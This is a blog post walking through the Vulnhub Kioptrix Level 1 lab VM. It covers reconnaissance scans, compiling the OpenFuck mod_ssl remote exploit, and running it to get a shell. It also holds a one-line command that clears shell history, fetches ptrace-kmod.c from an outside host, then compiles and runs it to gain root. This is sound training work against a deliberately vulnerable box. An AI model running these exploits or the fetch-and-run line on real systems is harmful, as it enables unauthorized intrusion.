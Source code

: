 ```yaml
---
layout: post
title:  "Vulnhub - Kioptrix 1"
date:   2017-04-18 21:50:00 +0100
categories: vulnhub kioptrix
image:
  feature: kioptrix1.jpg
  credit:
  creditlink:
---
```


The Kioptrix series was created by [@loneferret](https://twitter.com/loneferret) as a way of learning about different variations of linux. They are also designed to be very similar to those faced in the OSCP exam.  Since I'm eventually hoping to take this certification, this looked like a good candidate to learn from as they have been described as 'easy' in the sense that there aren't too many nasty traps.  The first to try is of course [Kioptrix: Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) 

![](/assets/images/Kioptrix1/1.png)

As always, find the IP's of the box we want to target to ensure it's working.

```bash
root@kali:~# arp-scan -l
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.137.1	00:50:56:c0:00:01	VMware, Inc.
192.168.137.132	00:0c:29:b7:d4:16	VMware, Inc.
192.168.137.254	00:50:56:fe:05:d2	VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9: 256 hosts scanned in 1.858 seconds (137.78 hosts/sec). 3 responded
```

Now lets do a port scan to see what services are open.
```bash
root@kali:~# nmap -A 192.168.137.132

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-04-18 21:48 BST
Nmap scan report for 192.168.137.132
Host is up (0.00031s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1026/udp  status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2017-04-18T20:50:46+00:00; +1m50s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
1024/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:B7:D4:16 (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop

Host script results:
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE
HOP RTT     ADDRESS
1   0.31 ms 192.168.137.132

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.91 seconds
{% endhighlight %}

Browsing to the http server, we just a pretty simple welcome page, with not too much of interest.

![](/assets/images/Kioptrix1/2.png)

I ran dirbuster hoping there was something more interesting on the server but this didn't turn up much. 

{% highlight bash %}
dirbuster
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: /cgi-bin/ - 403
Dir found: / - 200
Dir found: /icons/ - 200
Dir found: /manual/ - 200
Dir found: /manual/mod/ - 200
File found: /test.php - 200
Dir found: /icons/small/ - 200
Dir found: /doc/ - 403
Dir found: /usage/ - 200
File found: /usage/usage_201704.html - 200
File found: /usage/usage_200909.html - 200
```

So after a lot of fruitless searching, I ended up looking for an Apache 1.3 exploit, hoping to use that as a route onto the server, but there was nothing that looked to give me a way onto the server.  I'd seen references to mod_ssl on a couple pages (in fact it's shown in the nmap scan too), so I tried that.
```bash
root@kali:~# searchsploit mod_ssl 2.8
```

* Apache mod_ssl 2.8.x - Off-by-One HTAccess Buffer Overflow  
* Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Exploit 
* Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Exploit 

Lo and behold we have three exploits available, with OpenFuckV2 looking to be a way to get us onto the server.

So I downloaded OpenFuckV2 and compiled it according to the changes made [here](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/).  

```bash
gcc -o OpenFuck 764.c -lcrypto
```

Unfortunately, upon compiling, I got this error.

```bash
764.c:646:24: error: ‘SSL2_MAX_CONNECTION_ID_LENGTH’ undeclared here (not in a function)
  unsigned char conn_id[SSL2_MAX_CONNECTION_ID_LENGTH];
                        ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~
764.c: In function ‘read_ssl_packet’:
764.c:848:19: error: ‘SSL2_MT_ERROR’ undeclared (first use in this function)
    if ((buf[0] == SSL2_MT_ERROR) && (rec_len == 3)) {
                   ^~~~~~~~~~~~~
764.c:848:19: note: each undeclared identifier is reported only once for each function it appears in
764.c: In function ‘get_server_hello’:
764.c:980:16: error: ‘SSL2_MT_SERVER_HELLO’ undeclared (first use in this function)
  if (*(p++) != SSL2_MT_SERVER_HELLO) {
                ^~~~~~~~~~~~~~~~~~~~
764.c: In function ‘send_client_master_key’:
764.c:1072:10: error: dereferencing pointer to incomplete type ‘EVP_PKEY {aka struct evp_pkey_st}’
  if (pkey->type != EVP_PKEY_RSA) {
          ^~
764.c: In function ‘get_server_verify’:
764.c:1149:16: error: ‘SSL2_MT_SERVER_VERIFY’ undeclared (first use in this function)
  if (buf[0] != SSL2_MT_SERVER_VERIFY) {
                ^~~~~~~~~~~~~~~~~~~~~
764.c: In function ‘send_client_finished’:
764.c:1161:11: error: ‘SSL2_MT_CLIENT_FINISHED’ undeclared (first use in this function)
  buf[0] = SSL2_MT_CLIENT_FINISHED;
           ^~~~~~~~~~~~~~~~~~~~~~~
764.c: In function ‘get_server_finished’:
764.c:1174:16: error: ‘SSL2_MT_SERVER_FINISHED’ undeclared (first use in this function)
  if (buf[0] != SSL2_MT_SERVER_FINISHED) {
                ^~~~~~~~~~~~~~~~~~~~~~~
```

So, I'm including the error log here in case you stumbled across this page while googling.  The reason it seems, according to an unknown user in the comments of [this writeup](http://poc-hack.blogspot.co.uk/2012/08/kioptrix-hacking-challenge-level-1-part.html), is that the wrong version of libssl is installed.  This is fixed by installing an older version.

```bash
apt-get install libssl1.0-dev
```

So now we need to specify the shellcode we want to send depending on the install.  If you run the binary you'll see a list of all the possibles, but two stand out considering the known apache version and that there is a reference to Red Hat in the nmap scan and peppered around some random exposed files. From this we know that we want 0x6a or 0x6b.  0x6a yielded nothing but 0x6b got us a shell.

```bash
root@kali:~/Documents/Kioptrix1# ./OpenFuck 0x6b 192.168.137.132 443 

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80fc550
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
bash-2.05$ unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; 
--17:22:06--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... 
dl.packetstormsecurity.net: Host not found.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./p: No such file or directory
bash-2.05$ 
```

So the ptrace-kmod.c file didn't work for some reason.  Not having actually read it I didn't realise this was what allowed us to get root so I spent a much longer time than I want to admit trying to find some other vulnerabilities.  After going to back to square one however, I realised this was what would help us get root on the box.  So I downloaded it to the box, compiled and ran.

```bash
bash-2.05$ gcc -o ptrace ptrace-kmod.c
gcc -o ptrace ptrace-kmod.c
bash-2.05$ ./ptrace
./ptrace
[+] Attached to 1329
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

Boom we have root!  All in all this is quite a simple box but really helped me bridge that gap in understanding how to use an exploit to compromise a server and actually going about it and troubleshooting issues along the way.  I'd highly recommend this, if like me you are new to security and looking to learn more about actually using exploits and information gathering to compromise a system.
